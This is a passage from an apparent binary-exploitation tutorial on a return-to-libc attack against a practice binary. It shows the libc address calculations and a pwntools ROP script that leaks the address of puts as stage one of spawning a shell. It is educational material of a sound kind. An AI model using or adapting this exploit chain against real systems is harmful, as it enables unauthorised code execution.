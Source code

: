 After executing the exploit, we see the leaked real address of puts in hex.
<br>
<p align="center">
  	<img width="614" height="270" src="https://fir3wa1-k3r.github.io/imgs/pwn_20.png">
</p>
<br>
We can calculate the real address where the libc is loaded from the leaked address of puts using some simple calcuations. We also can calculate real addresses of other functions using the same. First we have to identify the offset of the puts function in the libc library. We can use `readelf` command to read the symbols and to display their offset in libc library. We also need the offset of the system function and the string "/bin/sh" so we can try to spawn a shell. strings command can help to identify the offset of the string "/bin/sh" in libc.
<br>
<p align="center">
  	<img width="890" height="185" src="https://fir3wa1-k3r.github.io/imgs/pwn_21.png">
</p>
<br>
Now, we calculate the base and real addresses using the below formula:

libc_base_address = leaked_real_puts_address - offset_of_puts<br>
real_system_address = libc_base_address + offset_of_system<br>
real_bin_sh_address = libc_base_address + offset_of_bin_sh
<br>
<br>
So, here is the overall exploit to pwn the binary and spawn a shell.
<br>
{% highlight ruby %} 
import struct
from pwn import *

# Setup env
elf = ELF("./vuln")
p = elf.process()

# Declarations
pop_rdi_ret = 0x400603		#0x0000000000400603 : pop rdi ; ret
main = 0x400566		#0000000000400566 <main>
puts_plt = 0x400430	#0000000000400430 <puts@plt>
puts_got = 0x601018
puts_offset = 0x6f690		#000000000006f690 puts@@GLIBC_2.2.5
system_offset = 0x45390		#0000000000045390 system@@GLIBC_2.2.5
sh_offset = 0x18cd57		#18cd57 /bin/sh

# Stage-1 Payload
buf = ""
buf += "A" * 40
buf += struct.pack("<Q", pop_rdi_ret)
buf += struct.pack("<Q", puts_got)
buf += struct.pack("<Q", puts_plt)
buf += struct.pack("<Q", main)

# Send Stage-1
p.recvuntil("Enter your name:")
p.sendline(buf)
p.recvline()
p.recvline()
leaked_puts = u64( p.recvline().strip().ljust(8,"\x00"))
log.info("Leaked address of puts: " + str(hex(leaked_puts)))
